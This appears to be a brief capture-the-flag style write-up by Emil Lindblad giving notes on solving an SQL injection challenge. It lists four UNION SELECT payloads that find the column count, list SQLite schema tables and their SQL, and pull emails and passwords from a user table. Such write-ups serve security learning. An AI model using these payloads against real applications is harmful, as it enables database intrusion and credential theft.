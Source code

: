 # SQL-Injection

> Emil Lindblad

Here are some *notes* from solving this challenge

```sql
Apple' UNION SELECT 1,2,3 ;--

Apple' UNION SELECT 1,2, name FROM sqlite_schema ;--

Apple' UNION SELECT 1,2, sql FROM sqlite_schema ;--

Apple' UNION SELECT email,password, name FROM user ;--

```
